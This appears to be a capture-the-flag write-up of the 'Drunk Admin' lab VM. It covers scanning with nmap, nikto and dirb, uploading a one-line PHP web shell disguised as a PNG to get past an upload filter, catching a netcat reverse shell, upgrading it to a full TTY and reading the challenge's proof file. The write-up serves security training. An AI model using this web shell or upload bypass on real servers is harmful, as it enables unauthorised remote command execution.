#### Drunk Admin Web Hacking

- [Attacker Info]()
- [Identify Victim]()
- [Nmap Scan]()
- [Web Enumeration]()
- [Nikto]()
- [Dirb]()
- [Shell]()

###### Attacker Info

```sh
root@kali:~/dawc# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.28  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fea3:a109  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:a3:a1:09  txqueuelen 1000  (Ethernet)
        RX packets 3271  bytes 354598 (346.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 99740  bytes 5993401 (5.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 138  bytes 9726 (9.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 138  bytes 9726 (9.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/dawc#
```

###### Identify Victim

```sh
root@kali:~/dawc# netdiscover
 Currently scanning: 192.168.49.0/16   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 6 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.7     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.29    00:0c:29:b0:52:3e      1      60  VMware, Inc.
 192.168.1.4     b0:df:3a:de:59:08      1      60  Samsung Electronics Co.,Ltd
 192.168.1.10    70:77:81:c0:6c:33      1      60  Hon Hai Precision Ind. Co.,Ltd.
 192.168.1.25    3c:91:57:12:05:73      1      60  Yulong Computer Telecommunication Scientific (Shenzhen) Co.,Ltd

root@kali:~/dawc#
```

###### Nmap Scan

```sh
root@kali:~/dawc# nmap -sV -sC -oA dawc.nmap 192.168.1.29 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-03 21:50 EDT
Nmap scan report for 192.168.1.29
Host is up (0.0011s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze1 (protocol 2.0)
| ssh-hostkey:
|   1024 57:a2:04:3d:6e:e5:01:7b:b4:c6:e5:f9:76:25:8a:8a (DSA)
|_  2048 66:9a:ee:a2:2a:1a:59:47:b9:c5:50:da:a6:96:76:16 (RSA)
8880/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Tripios
MAC Address: 00:0C:29:B0:52:3E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.84 seconds
root@kali:~/dawc#
```

###### Web Enumeration


###### Nikto

```sh
root@kali:~/dawc# nikto --host http://192.168.1.29:8880
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.29
+ Target Hostname:    192.168.1.29
+ Target Port:        8880
+ Start Time:         2018-05-03 22:16:13 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.16 (Debian)
+ Cookie trypios created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.3.3-7+squeeze8
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
Illegal hexadecimal digit ';' ignored at /var/lib/nikto/plugins/nikto_headers.plugin line 106.
+ Server leaks inodes via ETags, header found with file /UjbRO6uI.TPF, inode: 0x723b2, size: 0x33, mtime: 0x4ba515bf8ec40;4bcb127742900
+ Apache/2.2.16 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /info/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8348 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2018-05-03 22:16:31 (GMT-4) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/dawc#
```

```
http://192.168.1.29:8880/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
```



###### Dirb

```sh
root@kali:~/dawc# dirb http://192.168.1.29:8880

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu May  3 22:16:24 2018
URL_BASE: http://192.168.1.29:8880/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.29:8880/ ----
+ http://192.168.1.29:8880/cgi-bin/ (CODE:403|SIZE:290)
+ http://192.168.1.29:8880/image (CODE:200|SIZE:1392)
==> DIRECTORY: http://192.168.1.29:8880/images/
+ http://192.168.1.29:8880/index (CODE:200|SIZE:1638)
+ http://192.168.1.29:8880/index.php (CODE:200|SIZE:1638)
+ http://192.168.1.29:8880/info (CODE:200|SIZE:1600)
+ http://192.168.1.29:8880/info.php (CODE:200|SIZE:1600)
+ http://192.168.1.29:8880/server-status (CODE:403|SIZE:51)
==> DIRECTORY: http://192.168.1.29:8880/style/
+ http://192.168.1.29:8880/upload (CODE:200|SIZE:57)

---- Entering directory: http://192.168.1.29:8880/images/ ----
+ http://192.168.1.29:8880/images/admin.php (CODE:403|SIZE:51)
+ http://192.168.1.29:8880/images/index (CODE:200|SIZE:0)
+ http://192.168.1.29:8880/images/index.html (CODE:200|SIZE:0)
+ http://192.168.1.29:8880/images/index.php (CODE:403|SIZE:51)
+ http://192.168.1.29:8880/images/info.php (CODE:403|SIZE:51)
+ http://192.168.1.29:8880/images/phpinfo.php (CODE:403|SIZE:51)
+ http://192.168.1.29:8880/images/xmlrpc.php (CODE:403|SIZE:51)
+ http://192.168.1.29:8880/images/xmlrpc_server.php (CODE:403|SIZE:51)

---- Entering directory: http://192.168.1.29:8880/style/ ----
+ http://192.168.1.29:8880/style/bullet (CODE:200|SIZE:989)
+ http://192.168.1.29:8880/style/index (CODE:200|SIZE:0)
+ http://192.168.1.29:8880/style/index.html (CODE:200|SIZE:0)
+ http://192.168.1.29:8880/style/style (CODE:200|SIZE:5757)

-----------------
END_TIME: Thu May  3 22:16:40 2018
DOWNLOADED: 13836 - FOUND: 20
root@kali:~/dawc#
```

###### Shell

`shell.png.php`

```php
<?php echo exec($_REQUEST['cmd']) ?>
```













```
http://192.168.1.29:8880/images/6a9e40c5321f777ee7f19071637e36ab?cmd=id
```







[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method1pythonptymodule)

```sh
root@kali:~/dawc# nc -nlvp 6666
listening on [any] 6666 ...
connect to [192.168.1.28] from (UNKNOWN) [192.168.1.29] 43114
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@drunkadm:/var/www/images$ ^Z
[1]+  Stopped                 nc -nlvp 6666
root@kali:~/dawc# echo $TERM
xterm-256color
root@kali:~/dawc# stty -a
speed 38400 baud; rows 24; columns 80; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>;
eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk brkint ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff
-iuclc -ixany imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt
echoctl echoke -flusho -extproc
root@kali:~/dawc# fg
nc -nlvp 6666
reset
reset
reset: unknown terminal type unknown
Terminal type? xterm-256color
xterm-256color

www-data@drunkadm:/var/www/images$ export SHELL=bash
export SHELL=bash
www-data@drunkadm:/var/www/images$ stty rows 24 columns 80
stty rows 24 columns 80
www-data@drunkadm:/var/www/images$ ls
ls
3df5758863d650e59525cf2aa0676230.png  aa63b1c597b45e4f1f883724d0f8dfbe.jpg
6a9e40c5321f777ee7f19071637e36ab.php  index.html
8dc053a3ed0adf03994f96347d20d9e5.png
www-data@drunkadm:/var/www/images$
www-data@drunkadm:/var/www/images$ cd /home
cd /home
www-data@drunkadm:/home$ ls -l
ls -l
total 4
drwxr-xr-x 4 bob bob 4096 Mar  6  2012 bob
www-data@drunkadm:/home$ cd bob
cd bob
www-data@drunkadm:/home/bob$ ls -l
ls -l
total 8
drwxr-xr-x 2 root root 4096 Mar  6  2012 Documents
drwxr-xr-x 3 bob  bob  4096 Mar  6  2012 public_html
www-data@drunkadm:/home/bob$ cd public_html
cd public_html
www-data@drunkadm:/home/bob/public_html$ ls -l
ls -l
total 12
-rw-r--r-- 1 bob bob 1730 Mar  6  2012 encrypt.php
drwxr-xr-x 2 bob bob 4096 Mar  6  2012 include
-rw-r--r-- 1 bob bob  791 Mar  6  2012 index.php
www-data@drunkadm:/home/bob/public_html$
```

```sh
www-data@drunkadm:/var/www$ ls -lah
ls -lah
total 48K
drwxr-xr-x  4 root root     4.0K Apr  2  2012 .
drwxr-xr-x 14 root root     4.0K Mar  3  2012 ..
-rw-r--r--  1 root root      217 Mar  3  2012 .htaccess
-rw-r--r--  1 root root      322 Mar  6  2012 .proof
-rw-r--r--  1 root root     2.7K Mar  7  2012 image.php
drwxrwxr-x  2 root www-data 4.0K May  4 06:59 images
-rw-r--r--  1 root root     2.0K Mar  4  2012 index.php
-rw-r--r--  1 root root     1.9K Mar  4  2012 info.php
-rw-r--r--  1 root root      279 Mar  4  2012 myphp.php
drwxr-xr-x  2 root root     4.0K Mar  3  2012 style
-rw-r--r--  1 root root     2.1K Mar  7  2012 upload.php
-rw-r--r--  1 root root       51 Mar  3  2012 xmm.html
www-data@drunkadm:/var/www$ cat .proof
cat .proof
#########################
# Drunk Admin Challenge #
#     by @anestisb	#
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
www-data@drunkadm:/var/www$
```

```sh
www-data@drunkadm:/home/bob/public_html$ cp -R * /var/www/images
cp -R * /var/www/images
www-data@drunkadm:/home/bob/public_html$
```

```sh
root@kali:~/dawc# echo TGglMUxecjJDSDclN1Ej | base64 -d
Lh%1L^r2CH7%7Q#
root@kali:~/dawc#
```

```
http://192.168.1.29:8880/images/index.php
```

